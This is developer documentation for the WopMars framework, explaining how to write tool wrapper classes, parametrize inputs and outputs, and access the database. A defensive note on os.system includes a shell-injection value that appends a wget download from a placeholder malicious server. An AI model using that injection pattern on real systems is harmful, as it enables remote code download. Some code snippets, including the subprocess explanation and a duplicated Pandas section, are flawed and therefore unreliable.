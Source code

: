The Tool Wrappers
=======================

This manual aims to explain with simple words how to write the `tool wrappers` in order to allow a fresh Python developer to configure his own analysis workflow. This manual often refers to the Wopfile  so I recommand you to keep the :doc:`Wopfile </content/wopfile>` section open in case of blackout.

This starting guide will allow you to understand the main mecanisms which rule **WopMars**. It means the way WopMars talks with the `tool wrappers` you are using to understand their role in the workflow in terms of input and output parameters.

To illustrate the necessary conditions to build a correct `Toolwrapper`, we will use some kind of *TO DO* task list to prevent forgetting steps. The order doesn't matter but, I insist, each step is essential.

Developing basic `tool wrappers`
..................................

Declaring your class
--------------------

To define a `Toolwrapper` we will use an important concept of the *Object Oriented Programming* (OOP) which is **abstract inheritance**.

.. note::

    An abstract class is a class which represent a concept and, consequently, which is not supposed to be instantiated. For example, the bird concept: a bird flies and sings: an abstract class ``Bird`` would have methods like ``fly`` and  ``sing`` with nothing inside. Actually, there are no species called "bird", however, there are ducks and eagles. A duck is a realization of the concept of "bird". In OOP, the class ``Duck`` would inherit from ``Bird`` and would overide the methods ``fly`` and ``sing`` to specialize them in order to fit with the duck characteristics. Here, ``Duck`` is a subclass of ``Bird``.
    
A `Toolwrapper` compatible with **WopMars** have to be a subclass of the abstract class, prepare yourself, ``Toolwrapper``! For WopMars, every `Toolwrapper` is a subclass of ``Toolwrapper`` and if you ask it to work with a class which do not satisfy this simple condition, you'll obtain an error. The reason for that is simple: if your `Toolwrapper` inherit from ``Toolwrapper``, then it is certain that it contains some methods and attributes familiar to WopMars. Otherwise, there are no guarantees.

An other important thing necessary to work with WopMars is to provide the static class attribute ``__mapper_args__`` to your `Toolwrapper`. This attribute is a dictionnary which should have ``polymorphic_identity`` as key and the full name of the class (contained in a String) as value. This information is necessary to WopMars because when it will store the `tool wrappers` informations into the database, WopMars will be able to keep track of the inheritance between your `Toolwrapper` and the ``Toolwrapper`` class.

.. note::
    A static class attribute is an attribute associated with a class and not with a specific object of this class. Modifying this kind of attribute in an object of a given class is somehow similar to modifying this attribute in every object of the class (those that already exist and those future).

Here is an example of the declaration of a class called ``SparePartsManufacturer``:

.. code-block:: python

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }
        pass

You have now created your first `Toolwrapper`, but the aims to use abstract class inheritance is to guarantee to **WopMars** that each ``Toolwrapper`` implements some methods which describe its role.

`Toolwrapper` specifying methods
++++++++++++++++++++++++++++++++

A good way to see a `Toolwrapper` is to see it as an independant software. Meaning that it has a well defined role which is to generate a specific output in terms of a specific kinf of input with some options to parametrize its behavior. Anyway, this is the way WopMars is "watching" to the `tool wrappers`. The link between a `Toolwrapper` and WopMars is done thanks to inherited methods from ``Toolwrapper`` which have to be re-wrote by the `Toolwrapper` developer.

Describing files: ``specify_input_file`` and ``specif_output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The files called *input files* and *output files* are, on the one hand, the necessary files for the tool to work and, on the other hand, the files generated by the tool. A `Toolwrapper` doesn't rely on a specific file on the machine: it shouldn't access a file in a hard-coded way but should use some kind of variable containing the path to the given file. It is for the `Toolwrapper` developer to specify those variable names and they have to be respected in the workflow definition file (see :doc:`Wopfile section </content/wopfile>`). Those variable names are known by WopMars thanks to the methods ``specify_input_file`` (for the variable names associated with inputs) and ``specify_output_file`` (for the variable names associated with outputs). Those methods have to return each one a list containing the Strings containing the variable names accepted by the `Toolwrapper`.

.. warning::

    Every files asked by a `Toolwrapper` are required. It means that the processing of the `Toolwrapper` rely on every asked inputs and outputs. If a file is optional, you should specify it in the method ``specify_params`` (we will see it later)


The class ``SparePartsManufacturer`` takes a file in input but doesn't produce any output file. The input file path will be contained in the field named "pieces".

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

Describing tables: ``specify_input_table`` and ``specify_output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**WopMars** makes its `Toolwrapper` able to read and write entries in a database. Like for the files, the `tool wrappers` have to specify in which table of the database they will read (input tables) and in which they will write (output tables). So, the ``Toolwrapper`` class implements the methods ``specify_input_table`` and ``specify_output_table``. However, this time, the Strings contained in the returned list are associated with both the variables containing the table models and the name of the tables itself.

The final user have to write the same table names as keys in the `table` part of the definition file (see :doc:`Wopfile section </content/wopfile>`) and the path to the models associated with those tables as the values to specify which one the `Toolwrapper` should use. Usually, a `Toolwrapper` is closely related to a specific model but we can imagine that if two models are similar for a given `Toolwrapper`, it could use one or the other independantly (for example, if a model B inherit from the model A, then every `Toolwrapper` able to use A should be able to use B too).

.. note::

    At the moment, the concept of model shouldn't be clear but don't worry, in the section concerning the models, you will get more explanations about those models. At the moment, simply note that the `Toolwrapper` communicate its input and output table names in the methods ``specify_input_table`` and ``specify_output_table``.

Here is the rest of the `Toolwrapper` ``SparePartsManufacturer`` which writes its results in the table ``piece``:

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

Describing paramaters: ``specify_params``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

An other feature offered by the `tool wrappers` is to allow you to specify some parameters for the processing of the wrapper. Usually, those parameters will be associated with the options allowed by the analysis tool itself. They may also correspond to options used by the `toolwrappers` to offer flexibility for the pre and post processing of the data.

To specify which options a `Toolwrapper` is able to understand, it implements a method ``specify_params``. This method returns a dictionnary in which each key correspond to the name of the option which will be used in the definition file (see :doc:`Wopfile section </content/wopfile>`) and each value, a String representing its type. The availables types are the following (to memorize them, just think about the different Python data types):
- ``int``
- ``float``
- ``str``
- ``bool``

Furthermore, the key word ``required`` is available and allows to specify that one option has to be given by the user for the tool to run. To specify the type and use ``required`` at the same time, the character ``|`` will be used as a delimiter inside the String.

In the following class, the parameter ``max_price`` is an ``int`` and will be used to get only the entries with a price lower than it, if set.

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

        def specify_params(self):
            return {
                "max_price": int
            }

Declaring the method ``run``
++++++++++++++++++++++++++++

The ``run`` method contains the core of your `Toolwrapper`. The data processing and the call to the underlying analysis tool will be done here.

Calling files: ``self.input_file`` and ``self.output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The path to the files given by the final user are manipulated thanks to the methods ``self.input_file`` and ``self.output_file`` with the name of the variable containing the desired file as argument. For example, in our definition file, we have:

.. code-block:: yaml

    rule Rule1:
        tool: 'wopexamplesnp.wrapper.SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'

We can access the string `input/pieces.txt` with the following statement::

    self.input_file("pieces")

Calling models: ``self.input_table`` and ``self.output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The models given by the user can be accessed thanks to the methodes ``self.input_table`` and ``self.output_table`` with the table name as argument. This way, and unlike the files, you won't get the string representing the model but the model itself. For example:

.. code-block:: yaml

        output:
            table:
                piece: 'wopexamplesnp.model.Piece'

We can access the model ``Piece`` with the following statement::

    self.output_table("piece")

Session and accessing the database
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you are using **WopMars**, it is probably for the database access. Now, you know how to call the models from your method ``run`` but you probably doesn't know what to do with them. This section aims to explain how you should use your models and a session to access the database.

.. note:: 

    When you are working with databases, there is three level of hierarchy of the work you are performing on it: the session, the transaction and the operation:
    
    - The operation corresponds to each single task you are asking the database to do (``SELECT``, ``INSERT``, ``UPDATE``, ``DELETE``, etc.)
    - The transaction is a series of operations which are closely related (for example: ``SELECT``, compute then ``INSERT``). When a transaction finishes, the state of the database is checked, if every thing seems right and well ordered, the transaction is validated (``COMMIT``), if not, the whole transaction is canceled (``ROLLBACK``) in order to return to a stable state.
    - The session is a series of transactions which are independant. In other words, when you want to work with the database, you open a session and it says "I'm gonna work with you, database, are you ok?". Then, every operations you will perform will be associated with __your__ session before being ``COMMITED`` or ``ROLLBACKED``.

Developing Advanced `tool wrappers`
.....................................

Now that you understand the basics of the development of the `tool wrappers` you may want to do more advanced tricks to deal with **WopMars**. 

Parametrize inputs and outputs
------------------------------

During the parsing of the configuration file, WopMars check first the validity of the parameters and then look at the inputs and outputs. This behavior allow you to parametrize which input and output your `Toolwrapper` is supposed to take depending on the used parameters. In this example, the parameter ``to_file`` is a ``boolean`` and if it is ``True``, the result is written in a file instead of the database.

.. code-block:: python

    class CarAssembler(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.CarAssembler"
        }

        def specify_output_file(self):
            if not self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            if self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_params(self):
            return {
                "to_file": "bool",
                "max_price": "int",
            }

And there, the definition file (``Wopfile2`` in the example directory) look like this:

.. code-block:: yaml

    # Rule1 use SparePartsManufacturer to insert pieces informations into the table piece
    rule Rule1:
        tool: 'wopexamplesnp.wrapper.SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'
        output:
            table:
                piece: 'wopexamplesnp.model.Piece'

    # CarAssembler make the combinations of all possible pieces to build cars and calculate the final price
    rule Rule2:
        tool: 'wopexamplesnp.wrapper.CarAssembler'
        input:
            table:
                piece: 'wopexamplesnp.model.Piece'
        output:
            # Here the output is written in a file
            file:
                piece_car: 'output/piece_car.txt'
        params:
            # The price have to be under 2000!
            max_price: 2000
            to_file: True

Inherit models
--------------

During the conception of your workflows, you may want to make multiple rules write in the same table in a specific order (for example, one rule create entries and the other add informations in the fields). Basically, you would do like ever, playing with inputs and outputs in order to fit your needs but this way, you will be stuck with a logic problem where WopMars won't be able to say "this rule should be run before this one", like in the following schema:

.. figure::  ../images/model_inheritance.png
   :align:   center
   
   *If you want the rules to be run in this specific order, WopMars can't understand if `rule 2` is supposed to run before `rule 4` on the basis of the table names*

You can bypass this issue using *model inheritance*. With the model inheritance, you can build a model which inherit from a former model and add it some new attributes.

Taking back our model example ``Piece``, we need an other model which add the field ``date`` to the table. We call this model ``DatedPiece``

.. code-block:: python

    from sqlalchemy.sql.sqltypes import Date
    from sqlalchemy import Column

    from wopexamplesnp.model.Piece import Piece


    class DatedPiece(Piece):
        date = Column(Date)
        
With this model, there is an other `Toolwrapper` provided in the example: ``AddDateTopiece`` which show use of the same table as input and output. You can note that here, the `output_table` only is used. Actually, we are interested here in only ``DatedPiece`` objects:

.. code-block:: python

    import time, datetime
    import random

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class AddDateToPiece(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.AddDateToPiece"
        }

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            return ["piece"]

        def run(self):
            session = self.session()
            DatedPiece = self.output_table("piece")

            for p in self.session().query(DatedPiece).all():
                date = datetime.datetime.fromtimestamp(time.time() - random.randint(1000000, 100000000))
                p.date = date
                session.add(p)
            session.commit()

Executing clean command line
----------------------------

In your learning of Python, you may have encountered the famous ``os.system("command-line")`` and you probably want to make use of it again. Sorry, you **shouldn't do** things this way. Especially if you are running long analysis software. Instead, I'll show you how to use the module `subprocess <https://docs.python.org/3/library/subprocess.html>`_ for simple things and, please, use it extensively in order to get more control on the command lines you are executing.

.. note::

    As far as I know, there is two main differences between ``os.system()`` and ``subprocess`` plus the fact that ``subprocess`` is actually a little more difficult to use than the former:
    
    - ``os.system()`` is very sensible to malicious code injection. Example:

        .. code-block:: python

            def list_extension(ext):
                os.system("ls -1 *." + str(ext))
            
        This function is supposed to list all the files of a given extension in the directory. But if,  instead of passing ``txt`` as argument, I pass ``txt; wget http://malicious.server/malware`` then, the function will list the files with ``txt`` extension and download the malware from the malicious server!

        Now, with ``subprocess.Popen``, you can't do such a thing because spaces are not allowed inside arguments:

        .. code-block:: python

            def list_extension(ext):
                subprocess.Popen(["ls", "-1", "*." + str(ext)])
        
    - ``subprocess`` open a Pipe between the python process and the subprocess whereas ``os.system`` calls a subshell independant of the first. This difference makes the communication between the subprocess and your python code far more easy with ``subprocess`` instead of ``os.system`` in which it is nearly impossible

Reading/writing to the database
...............................

Reading and writing to the database has to be carried out through the WopMars session. The WopMars session implements a lock system to prevent database inconsistencies. There are three implemented methods to read/write to the database with the wopmars session. 

- SQLAlchemy ORM
- SQLAlchemy core
- Pandas read_sql and to_sql

SQLAlchemy ORM
--------------------

The SQLAlchemy ORM is very simple but it is also quit slow after 100 objects. Inside the `run` method of the tool wrapper, we will can take a WopMars session simply with `self.session` and then call SQLAlchemy ORM methods on it.

        .. code-block:: python

            # This code is for illustration purpose and has not been tested
            # inside the run of a tool wrapper MyWrapper
            def run(self):
                session = self.session()
                my_input_model = self.output_table(MyWrapper.__input_table1)
                query_dic = {'col1': value_1, 'col2': value_2}
                try: # check if query_dic exists
                    session.query(my_input_model).filter_by(**query_dic).one()
                except: # if not add and later commit
                    snp_instance = snp_model(**snp_dic)
                    session.add(snp_instance)
                session.commit()

SQLAlchemy core
--------------------

Inside the `run` method of the tool wrapper, we need to retrieve a list of object dictionaries in the database. Then we check if new objects are not already in the database and then insert a list of such object dictionnaries.

        .. code-block:: python

            # This code is for illustration purpose and has not been tested
            # inside the run of a tool wrapper MyWrapper
            def run(self):
                session = self.session()
                engine = session._WopMarsSession__session.bind
                conn = engine.connect()
                #
                my_input_model = self.output_table(MyWrapper.__input_table1)
                #
                # retrieve all objects in database
                sql = select([my_input_model.col1])
                my_input_model_in_db = [{'col1': row[0] for row in conn.execute(sql)}]
                # check if new col1:val1 not already in db
                if not {'col1': val1} in my_input_model_col1_db:
                    # add to list of value dics
                    my_input_model_new_objects=[{'col1': val1}]
                # bunch insert list of value dics
                engine.execute(my_input_model.__table__.insert(), [my_input_model_val1_dic])

Pandas read_sql and to_sql
----------------------------

Inside the `run` method of the tool wrapper, we need to retrieve a list of object dictionaries in the database. Then we check if new objects are not already in the database and then insert a list of such object dictionnaries.

        .. code-block:: python

            # This code is for illustration purpose and has not been tested
            # inside the run of a tool wrapper MyWrapper
            def run(self):
                session = self.session()
                engine = session._WopMarsSession__session.bind
                conn = engine.connect()
                #
                my_input_model = self.output_table(MyWrapper.__input_table1)
                #
                # retrieve all objects in database
                sql = select([my_input_model.col1])
                my_input_model_in_db = [{'col1': row[0] for row in conn.execute(sql)}]
                # check if new col1:val1 not already in db
                if not {'col1': val1} in my_input_model_col1_db:
                    # add to list of value dics
                    my_input_model_new_objects=[{'col1': val1}]
                # bunch insert list of value dics
                engine.execute(my_input_model.__table__.insert(), [my_input_model_val1_dic])


